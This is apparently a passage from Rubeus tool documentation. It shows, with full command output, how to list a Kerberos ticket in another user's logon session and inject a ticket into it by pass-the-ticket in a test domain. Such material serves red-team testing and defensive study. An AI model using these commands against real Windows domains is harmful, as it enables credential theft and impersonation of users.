 
**Elevated** ticket application to another logon session:

    C:\Rubeus>Rubeus.exe klist /luid:0x474722b

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3



    [*] Action: List Kerberos Tickets (All Users)

    [*] Target LUID     : 0x474722b

    UserName                 : patsy
    Domain                   : TESTLAB
    LogonId                  : 0x474722b
    UserSID                  : S-1-5-21-883232822-274137685-4173207997-1169
    AuthenticationPackage    : Kerberos
    LogonType                : Interactive
    LogonTime                : 2/11/2019 10:58:53 PM
    LogonServer              : PRIMARY
    LogonServerDNSDomain     : TESTLAB.LOCAL
    UserPrincipalName        : patsy@testlab.local

        [0] - 0x12 - aes256_cts_hmac_sha1
        Start/End/MaxRenew: 2/11/2019 2:58:53 PM ; 2/11/2019 7:58:53 PM ; 2/18/2019 2:58:53 PM
        Server Name       : krbtgt/TESTLAB.LOCAL @ TESTLAB.LOCAL
        Client Name       : patsy @ TESTLAB.LOCAL
        Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)


    C:\Rubeus>Rubeus.exe ptt /luid:0x474722b /ticket:doIFmjCCBZagAwIBBaEDAgEWoo..(snip)..

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: Import Ticket
    [*] Target LUID: 0x474722b
    [+] Ticket successfully imported!

    C:\Rubeus>Rubeus.exe klist /luid:0x474722b
